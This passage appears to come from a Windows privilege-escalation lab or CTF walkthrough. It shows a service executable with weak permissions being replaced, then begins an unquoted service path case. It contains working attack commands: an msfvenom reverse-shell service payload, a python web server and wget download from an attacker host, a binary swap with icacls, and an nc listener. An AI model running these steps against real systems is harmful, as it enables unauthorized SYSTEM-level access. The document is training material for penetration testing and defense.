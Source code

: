 The `Everyone` group has modify permissions (M) on the service's executable. We can overwrite it with any payload, 
and the service will execute it with the privileges of the configured user account.

2. Generate an exe-service payload using msfvenom and serve it through a python webserver:

```text
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP address attack machine> LPORT=4445 -f exe-service -o rev-svc.exe

# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

3. On the target machine, in powershell, pull it down:

```text
wget http://<IP address attack machine>:8000/rev-svc.exe -O rev-svc.exe
```

4. Replace the service executable with the payload:

```text
C:\> cd C:\PROGRA~2\SYSTEM~1\

C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> move C:\Users\unprivilegedusername\rev-svc.exe WService.exe
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
        Successfully processed 1 files.
```

Start listener on attack machine:

```text
# nc -lvp 4445
```

Wait for the service to restart.

### Disk Sorter Enterprise

1. An unquoted service path was found.

```text
C:\> sc qc "disk sorter enterprise"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: disk sorter enterprise
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Disk Sorter Enterprise
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcusr2
```
